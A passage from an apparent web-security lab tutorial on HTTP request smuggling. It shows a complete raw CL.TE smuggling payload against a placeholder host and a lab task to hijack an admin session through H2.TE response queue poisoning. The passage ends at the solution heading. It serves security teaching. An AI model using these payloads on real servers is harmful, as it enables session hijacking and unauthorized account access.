 With a bit of care, you can smuggle a complete request instead of just a prefix. As long as you send exactly two requests in one, any subsequent requests on the connection will remain unchanged:

**Front-end (CL)**

```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

**Back-end (TE)**

```
POST / HTTP/1.1*\r\n*
Host: vulnerable-website.com*\r\n*
Content-Type: x-www-form-urlencoded*\r\n*
Content-Length: 61*\r\n*
Transfer-Encoding: chunked*\r\n*
*\r\n*
0*\r\n*
*\r\n*
GET /anything HTTP/1.1*\r\n*
Host: vulnerable-website.com*\r\n*
*\r\n*
GET / HTTP/1.1*\r\n*
Host: vulnerable-website.com*\r\n*
*\r\n*
```

No invalid requests are hitting the back-end, so the connection should remain open following the attack.

### Response queue poisoning via H2.TE request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

**Solution**

